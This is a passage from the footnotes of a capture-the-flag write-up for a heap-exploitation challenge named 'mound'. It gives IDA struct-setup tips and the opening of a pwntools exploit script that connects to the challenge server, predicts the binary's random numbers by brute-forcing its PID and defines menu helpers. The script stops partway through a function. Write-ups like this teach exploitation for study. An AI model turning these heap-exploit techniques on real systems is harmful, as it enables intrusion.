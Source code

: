    The script found nothing.

3. In case you're wondering how there's a pseudocode reference to `mound_arena.mcache->entries[]`, as opposed to an ugly red `*(_QWORD *)(MEMORY[0xDEAD0008008] + 8 * (v3 + 2LL) + 8)` reference:

   * Define the `mound_metadata` class (and the other `struct`s from [here](#mound)) in the `Structures` tab; you should see an entry like this in the local types tab (Shift+F1):
     ![](image-20210809082020677.png) 
   * In the IDA View tab, select `Edit --> Segments --> Create Segment`; fill the pop-up window with sensible values
   * put a variable at `mound_arena:00000DEAD0000000` and retype it (`Y`) as a `mound_metadata`.

4. The code block there isn't supposed to make sense. Throughout the writeup, I've tried to keep declarations and variables consistent across code snippets, but getting this code to match with everything else in the writeup is just a _little bit_ intractable.

5. This is the reason why I ended up searching for [the intended solution](#the-obvious-solution). My silly alternative method for getting to `win()` doesn't work on remote; the time cost associated with a single connection – let alone _bruteforcing the PID_ – makes it impossible to increment `mcache->entries[-1]` without an absurdly low ping.
   The 30x number comes from a crude measure of how many times the exploit calls `choose()`. For the intended solution, it's about a hundred. The negative indexing process takes around ~3000 calls on average, and this shakes out to an exploit duration of around 15 minutes _per guess_ on remote.
   Feel free to try it out youself:

   ```python
   from random import randint
   from collections import namedtuple
   from ctypes import CDLL
   from tqdm import tqdm
   from pwnscripts import *
   
   BEEF, DEAD = 0xbeef0000000, 0xdead0000000
   mound_arena = namedtuple('mound_metadata', 'base ids mcache top')(DEAD, DEAD+0x8, DEAD+0x8008, DEAD+0x8010)
   mound_data = namedtuple('beef', 'base mcache dents shellcode')(BEEF, BEEF+0x10, BEEF+0x10000, BEEF+0x100)
   midxs = namedtuple('midb', 'prev_size_editor fakeid_provider strdup mcache_dup got_overwriter')(5, 6, 0, 1, 2)
   
   context.binary = 'mound'
   context.libc = 'libc.so.6'
   libc = CDLL('libc.so.6')
   t = libc.time(0)
   if args.REMOTE:
       r = remote('193.57.159.27', 41932)
       #r = remote('localhost', 8329)
       libc.srand(t^int(args.PID)) # bruteforce PID
   else:
       r = context.binary.process()
       libc.srand(t^r.pid)
   
   # I/O methods
   def choose(opt: int): r.sendlineafter(b'> ', str(opt))
   def strdup(s: bytes, i: int):
       choose(1)
       r.sendafter(b'Pile: ', s)
       r.sendlineafter(b'index: ', str(i))
   def add(midx: int, idx: int, s: bytes):
       choose(2)
       sz = midx2rsize(midx)
       assert sz < 0x1000
       assert len(s) <= sz
       r.sendlineafter('pile: ', str(sz))
   ```